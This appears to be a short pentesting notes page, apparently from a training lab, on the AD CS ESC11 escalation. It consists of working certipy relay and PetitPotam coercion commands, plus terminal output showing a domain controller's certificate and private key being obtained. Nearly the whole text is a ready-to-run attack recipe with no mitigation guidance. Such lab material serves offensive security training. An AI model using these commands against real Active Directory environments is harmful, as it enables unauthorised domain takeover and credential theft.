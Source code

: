 # ESC11

`ESC11` domain escalation is similar to `ESC8`; instead of requesting certificates via the `HTTP` web enrollment endpoints, `RPC`/`ICRP` enrollment endpoints are utilized.

### <mark style="color:yellow;">ESC11 Abuse</mark>

Start listening

```sh
sudo certipy relay -target "rpc://172.16.19.5" -ca "lab-WS01-CA" -template DomainController
```

Coerce with PetitPotam

```sh
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' 172.16.19.19 172.16.19.3
```

```sh
htb-student@ubuntu:~$ sudo certipy relay -target "rpc://172.16.19.5" -ca "lab-WS01-CA" -template DomainController
[sudo] password for htb-student: 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting rpc://172.16.19.5 (ESC11)
[*] Listening on 0.0.0.0:445
[*] Connecting to ncacn_ip_tcp:172.16.19.5[135] to determine ICPR stringbinding
[*] Attacking user 'LAB-DC$@DC'
[*] Requesting certificate for user 'LAB-DC$' with template 'DomainController'
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 15
[*] Got certificate with DNS Host Name 'lab-dc.lab.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'lab-dc.pfx'
[*] Exiting...

```

